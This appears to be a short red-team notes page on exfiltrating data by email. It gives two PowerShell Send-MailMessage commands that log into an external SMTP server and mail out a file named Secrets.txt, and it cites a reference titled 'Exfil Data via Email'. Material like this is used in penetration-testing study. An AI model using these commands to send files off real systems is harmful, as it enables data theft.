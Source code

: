 # SMTP

## 01 - Powershell

### 1.1 - Send-MailMessage

```powershell
PS C:\> $username = 'bob@mail.ru'
$password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force
$credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password
Send-MailMessage -From 'Bob <bob.baronov@mail.ru>' -To 'Alice <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

Here's an example

```powershell
PS C:\> $username = 'alice@mail.ru'; $password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force; $credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password;  Send-MailMessage -From 'bob <bob@mail.ru>' -To 'Alice  <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

## References

- [Exfil Data via Email](https://docs.anarchy-farm.com/exfil-data-via-e-mail)